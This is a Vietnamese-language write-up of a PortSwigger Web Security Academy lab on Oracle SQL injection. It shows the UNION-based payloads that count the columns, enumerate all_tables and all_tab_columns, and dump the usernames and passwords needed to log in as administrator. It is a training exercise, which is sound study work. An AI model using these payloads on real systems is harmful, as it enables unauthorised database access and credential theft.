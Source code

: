# Lab: SQL injection attack, listing the database contents on Oracle

### Link: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle
![Require of Lab](/Images/sql10.1.png)

Yêu cầu của bài lab là đăng nhập bằng thông tin của user `administrator`

Truy cập vào bài lab ta thấy đây là 1 website bán hàng, với từng danh mục như `Corporate gifts`, `Food & Drink`, `Gifts` và `Lifestyle`, `Pets`....
![Website](/Images/sql10.2.png)

Bước đầu tiên để giải quyết bài lab, ta phải xác định số cột được trả về là bao nhiêu. 
Sau khi tăng dần vị trí tương đối lên đến 3 thì thấy thông báo lỗi, do đó ta xác định được số cột được trả về là 2
> https://ac981fa11f0346e6c0c1028e0087005b.web-security-academy.net/filter?category=Gifts`'+ORDER+BY+3--`

![Error of query](/Images/sql10.3.png)

Tiếp theo, là xác định từng cột trả về có chứa văn bản hay không.
Ta kiểm tra các cột được trả về bằng cách chèn một vài ký tự trong cột và xem phản hồi
> https://ac981fa11f0346e6c0c1028e0087005b.web-security-academy.net/filter?category=Gifts`'+UNION+SELECT+'abc','3gb'+FROM+dual--`

![Check column](/Images/sql10.4.png)


Sau khi xác định các cột đều chứa văn bản, ta tiến hành lấy thông tin của các bảng có trong dtb như sau
> https://ac981fa11f0346e6c0c1028e0087005b.web-security-academy.net/filter?category=Gifts`'+UNION+SELECT+table_name,NULL+FROM+all_tables--`

![All tables](/Images/sql10.5.png)
Sau khi có được toàn bộ bảng có trong dtb, ta thấy có một bảng tên là `USERS_NHJWZF` là bảng chứa các thông tin của user, bây giờ ta sẽ đi lấy thông tin của các cột có trong bảng `USERS_NHJWZF` này
> https://ac981fa11f0346e6c0c1028e0087005b.web-security-academy.net/filter?category=Gifts`'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_NHJWZF'--`

![All column](/Images/sql10.6.png)

Đã có được thông tin của các cột trong bảng chứa thông tin user, thì ta sẽ tiến hành lấy thông tin của các user thông qua các cột usename và password
> https://ac981fa11f0346e6c0c1028e0087005b.web-security-academy.net/filter?category=Gifts`'+UNION+SELECT+PASSWORD_XDISKB,USERNAME_RERJRT+FROM+USERS_NHJWZF--`

![All user](/Images/sql10.7.png)

Để hoàn thành bài lab, ta dùng thông tin của user `administrator` để đăng nhập vào website
![Result](/Images/sql10.8.png)


<div align="right"> <i> Ngày 22 tháng 01 năm 2022 </i> </div>
